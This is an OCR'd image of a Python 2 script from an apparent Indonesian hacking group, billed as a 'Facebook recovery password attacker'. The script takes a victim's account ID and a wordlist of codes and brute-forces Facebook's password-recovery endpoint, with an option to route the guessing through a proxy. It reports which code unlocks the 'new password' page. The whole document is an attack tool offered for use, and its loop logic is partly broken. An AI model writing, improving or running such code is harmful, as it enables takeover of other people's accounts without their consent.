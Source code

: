 # HackNew
  import urllib2 ,sys ,re import os import ssl import time  def cls():     linux = 'clear'     windows = 'cls'     os.system([linux,windows][os.name == 'nt'])  cls()  os.system(['','color D'][os.name == 'nt'])  print '''                 SELAMAT DATANG                      DI                 ACEH CYBER TEAM            CODE: BY R15ky Ch4nn3L      FACEBOOK RECOVERY PASSWORD ATTACKER     _____              _                 _ |  ___|_ _  ___ ___| |__   ___   ___ | | __ | |_ / _` |/ __/ _ \ '_ \ / _ \ / _ \| |/ / |  _| (_| | (_|  __/ |_) | (_) | (_) |   &lt; |_|  \__,_|\___\___|_.__/ \___/ \___/|_|\_\                                ''' if len(sys.argv) != 3:     print "\n\n[#] Penulisan: python2 fb.py [TagetID] [listkode.txt] "     sys.exit()  target = sys.argv[1] wordlist = sys.argv[2]   while True:     print """     ============ Menu ==============     1- Reset Password Korban Dengan Proxy     2- Dengan Proxy saja          """      choice=raw_input("Masuka  Pilihan Mu: ")      if choice=="1":         try:             word = open(wordlist, 'r').readlines()             print "[+] Kode Nya Tersimpan \!/\n[+] Codes:",len(word)         except("IOError"):             print "[-] Hanya dalam Format .txt Ngentod :v"             sys.exit(1);          for w in word:             w = w.rstrip()             try:                 target = 'https://m.facebook.com/recover/password?u='+target+'&amp;n='+w                 get = urllib2.urlopen(target).read()                  except IOError:                 print " Gabisa Dimuat Halaman Nya :( "                  search = re.search('password_new', get)             if search:                 print "[+] Kode Yang Ini "+w+" Bener anda beuntung^___^ "             else:                 print "[+] Kode Yangini "+w+" Salah nyan >:( "     else:          print """          Selamat Datang Di Tools Saya Masukan Proxy:Port Anda Beb:*          Penggunaan : [ip:port]           """         ip_proxy=raw_input("Masukan Proxy Mu  : ")         print "[##] Proxy Terpasang : "+ip_proxy         proxy = urllib2.ProxyHandler({'http': ip_proxy})         opener = urllib2.build_opener(proxy)         urllib2.install_opener(opener)                  #ip = urllib2.urlopen('http://checkip.dyndns.org').read()         #theIP = re.findall(r"\d{1,3}\.\d{1,3}\.\d{1,3}.\d{1,3}", ip)         #print theIP         #datum = response.read()         #response.close()         #print datum         try:             word = open(wordlist, 'r').readlines()             print "[+] Kode Reset Tersimpan \!/\n[+] Kodd:",len(word)         except("IOError"):             print "[-] Yang Ini Gabisa Di Pake Anjirr !!"             sys.exit(1);          for w in word:             w = w.rstrip()             try:                 target = 'https://m.facebook.com/recover/password?u='+target+'&amp;n='+w                 get = urllib2.urlopen(target).read()                              except IOError:                 print " Yahh halaman ny gabisa dimuat :( "                      search = re.search('password_new', get)             if search:                 print "[+] Kodenya yang ini "+w+" Bener Sayang :* "             else:                 print "[+] Kode Yang Ini "+w+" Gabisa Dipakai Tod :v "
